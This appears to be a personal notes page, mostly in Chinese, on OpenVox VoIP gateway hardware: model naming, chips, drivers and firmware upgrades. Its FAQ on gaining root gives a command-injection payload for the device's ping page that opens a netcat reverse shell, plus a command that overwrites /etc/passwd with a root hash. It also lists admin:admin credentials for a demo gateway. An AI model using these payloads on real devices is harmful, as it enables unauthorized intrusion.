 ```yaml
---
id: openvox
title: OpenVox
---
```


# OpenVox

* [OpenVox](http://www.openvox.cn/cn/)
* https://openvox.cn/pub/
* 210 vs 230
  * 230 has a longer wake width wise in the and not as steep; and the 210 has a steep shorter wake
  * The D230E/DE230E is an upgrade product of the D210E/DE210E.
* [D230E/DE230E on DAHDI User Manual](https://openvoxwiki.atlassian.net/wiki/spaces/UM/pages/917549/D230E+DE230E+on+DAHDI+User+Manual)
* http://www.openvox.cn/pub/
  * 公共文档
  * [D130/D230/D430 Series PRI Card_Datasheet](http://www.openvox.cn/pub/datasheets/English/D130_D230_D430_Series_PRI_Card_Datasheet.pdf)
* `cat /proc/interrupts`
  * 查看是否有独立中断
* 单机多卡需要时钟线
* A 卡都是附加 FXO-400, FSO-400
* D230E
  * [infineon](https://www.infineon.com/)
    * PEF 22554 HT v2.1
    * QuadFALC
    * G0624
    * Framer and LIU (Line Interface Unit) Component (FALC)
    * [Infineon Introduces 4-Line T1/E1/J1 Framer and LIU Component with Smallest Footprint and Lowest Power Consumption](https://www.infineon.com/cms/en/about-infineon/press/market-news/2002/129029.html)
  * 4x MNOVR MS1442 1443Y
  * AITRA cyclone IV
    * [Altera Cyclone® IV](https://www.altera.com.cn/products/fpga/cyclone-series/cyclone-iv/overview.html)
    * EP4CE10E17CBN
    * MALAYSIA
* 驱动下载 - https://openvox.cn/pub/drivers/dahdi-linux-complete/
* 演示网关
  * http://demo.openvox.cn:65327/
  * admin:admin

## 产品命名
* VS - VoxStack
  * 模块化系列网关
  * 支持热插拔
* AG - Analog Gateway - 模拟网关
* DGW - 数字网关
* SWG - Standalone Wireless Gateway - 独立无线网关
* GWM - Gateway Module - 网关模块
* 型号格式
  * D - Digit, B - BRI, X - 混合, G - GSM, A - Analog, V - 编码转换卡, TAP - 录音卡, WCD - G 卡的 WCDMA 扩展模块
  * E - 回声消除
  * 数字 路数 1,2,4,8,24
  * 版本 10/30, 30 是 10 的升级
  * P - PCI, E - PCIE
* GWM801O - 8口 FXO 模块
* GWM420L - 4口 LTE 模块

## 产品
- 常见芯片
  - M83241G13 - CPU Comcerto 1000
  - Altera Cyclone IV EP4CE10F17C8N - FPGA
  - asmedia asm1083 - PCIe to PCI 芯片
- E2M8HJ9DJ68P - VS 模块
  - M83241G13 - Freescale Semiconductor - NXP
    - Telecom Interface ICs C1K-LS102M 450MHz
    - IC C1K 450MHZ VOIP 448BGA
- FXS-420 v1.2 - FS42HJ1KK4UY5
  - S13215-FM
- FXO-400 v1.4 - FXODHJO2XT6L
  - 3019-FT 1718FF L0L4
  - Si3050-FT 1708EM F1Q5
- A810E v1.4 - A814HJ1DBGCZ - PCIe 卡
  - Altera Cyclone IV EP4CE10F17C8N - FPGA
  - asmedia asm1083 - PCIe to PCI 芯片
- VS-AGU-E2M0800 - VoxStack 系列 模拟网关
- VS-GGU-E2M0400 - VS 系列, GSM 网关
  - 硬件版本 Date 2012-11-09 FPGA 11 Hardware 00
  - 主板
    - RTL8316E
    - ATMLH424
- VS-GWM400
  - Quectel M35FAR01A08
  - Altera Cyclone IV EP4CE10F17C8N
  - asmedia asm1083
  - SPANSION S34ML01G200TF100 - Flash
  - CPU 是模块化接口
  - 850/900/1800/1900MHz@GSM
  - 900/2100MHz@UMTS
  - 900/1800MHz@GSM
- VS_USB-1044
  - LTE FDD: B1/B3/B5/B8
  - LTE TDD: B38/B39/B40/B41
  - TD-SCDMA: B34/B39
  - CDMA: BC0
  - WCDMA: 900/2100MHz
  - GSM: 900/1800MHz
  - Avahi - WirelessGateway _burn._tcp - 169.254.8.223
  - 支持 SIM 模块类型
    - EC20 CE-HDLG
    - M26
    - M35 - LTE 4G
    - MCU
    - SIM6320C

## M83241G13
- ARM1136 - 2 Core, 650MHz
- 敏迅科技/Mindspeed Technologies 芯片
- Mindspeed 主要提供 VoIP 领域解决方案 - DSP, LTE, Transcede
- VoIP, Security Engine, PCIe 2, RGMII 2
- SDRAM 16/32 bit DDR2-800/667/533
- L1 缓存 2x(64K D$/64K I$)
- VoIP 能力
  - Field hardened voice features
  - World class acoustic echo cancellation technology
  - Narrow and wideband codecs
  - G.711, G.729, G.722, G.723.1, iLBC, T.38, G.729.1, G.722.2, AMR, AMR Wideband
  - Enhanced echo canceller, CID-I/II, VAD/CNG, AGC
  - 3-Way conferencing
- TDM/PCM interface for glue-less VoIP support
- 2009 年

## A810

* Communication controller: OpenVox Communication Co. Ltd. Device 0810 (rev 15)
* OpenVOX电话模拟语音卡 A810E Asterisk 卡8路语音卡FXO/FXS模块化 A810E
* AE810E/AE810P [手册](https://openvox.cn/pub/misc/AE810E_AE810P_Elastix%202.0.4_User_Manual_English.pdf)

```bash
modprobe –r opvxa24xx
```

## 固件
* https://www.openvox.cn/pub/firmwares

```bash
# 升级流程
auto_update -i 1
auto_update -b u-boot.bin
auto_update -u -f AnalogGateway.img
```

# FAQ
## 获取 root 权限
1. ssh 用户名修改为 super 即可
2. ping 页面进行 shell 注入
  * `google.com;rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/ash -i 2>&1|nc yourip 1234 >/tmp/f`

```bash
cat /etc/passwd
echo 'root:$6$p5UxF/96kKYh3eVj$laEQueyeV4tDJV5ASR3kj7r5X/BtXQ/PJM4dCrnAo1M8HtSlDWupG7TQQ.r1wTncK.Jze4NNa9UN37wvT0L/L/:0:0:root:/tmp:/bin/bash' > /etc/passwd
```

## toybox 工具包

```bash
wget https://landley.net/toybox/downloads/binaries/latest/toybox-$(uanem -m)
```

## clone system
- 主要目录 /etc, /data, my_tools, /www
- /www 一般为 link，不同版本指向不同位置
- /tmp 下会存储一些运行和系统信息

```bash
ssh -p 12345 root@192.168.99.1 'cd /etc; tar cf - ./' | tar xvf - -C etc
```

## fix local perm
删除 link, 修复 目录 和 文件 权限

```bash
find . -type l -delete
find . -type d | xargs chmod 0744
find . -type f | xargs chmod 0644
```
